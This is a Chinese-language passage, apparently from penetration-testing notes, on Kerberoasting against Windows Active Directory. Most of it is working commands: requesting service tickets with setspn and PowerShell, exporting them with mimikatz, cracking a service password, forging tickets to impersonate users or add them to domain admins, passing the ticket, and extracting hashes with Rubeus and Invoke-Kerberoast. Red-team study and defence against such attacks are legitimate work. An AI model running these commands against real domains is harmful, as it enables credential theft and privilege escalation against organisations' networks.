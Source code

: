 或请求全部票据：
```
setspn.exe -T 0day.org -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.Post Context[0].Trim() }
```

使用 klist 命令查看当前会话存储的 Kerberos 票据：
```
klist
```

使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```
kerberos::list /export
```

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```

Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi -w test.kirbi -g 512
```

```
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

---

### Kerberoasting

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting)]</sup>

kerberoast 攻击，利用 mimikatz 从内存中导出票据破解。而 Kerberoasting 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

- https://github.com/GhostPack/Rubeus
    ```
    Rubeus.exe kerberoast
    ```

也可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
```powershell
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

只提取出hash的命令：
```powershell
Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```
